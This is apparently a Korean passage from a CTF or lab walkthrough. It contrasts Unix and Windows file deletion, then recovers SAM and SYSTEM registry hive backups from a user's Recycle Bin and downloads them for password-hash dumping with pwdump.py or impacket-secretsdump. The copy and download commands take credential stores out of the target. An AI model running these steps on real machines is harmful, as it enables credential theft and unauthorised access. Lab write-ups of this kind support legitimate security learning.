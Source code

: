 
Windows와 Unix의 차이점을 생각하면서 운영 체제가 삭제 요청을 처리하는 방식의 차이점은 무엇입니까?

답변 — Unix를 사용하면 쉬운 복구 방법이 없는 직접 연결 해제입니다. Windows에서는 파일이 연결 해제되지만 파일 자체를 덮어쓸 때까지 핸들이 휴지통에 보관됩니다.


사용자에 대한 재활용 파일은 `C:\$Recycle.bin\<SID>`에서 찾을 수 있으며 여기서 SID는 개별 사용자를 위한 것입니다.

```powershell title="SID 확인"
whoami /all | Select-String -Pattern "jareth" -Context 2,0
```


이제 재활용 쓰레기통으로 이동하여 살펴볼 수 있습니다.
```powershell
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
```

![[Pasted image 20250817001959.png]]

SAM 및 SYSTEM 레지스트리 하이브의 백업이 있으므로 시스템의 모든 사용자 계정의 암호 해시를 덤프하는 데 이를 사용하는 고전적인 권한에 필요한 모든 것이 있습니다.


```powershell title="Downloading the hive backups"
copy sam.bak C:\Windows\tasks\sam.bak
copy system.bak C:\Windows\tasks\system.bak
download C:\Windows\tasks\sam.bak
download C:\Windows\tasks\system.bak
```


Kali로 가서 `pwdump.py` 도구를 사용하여 암호 목록을 제공할 수 있습니다.
`impacket-secretsdump` 도구로도 가능

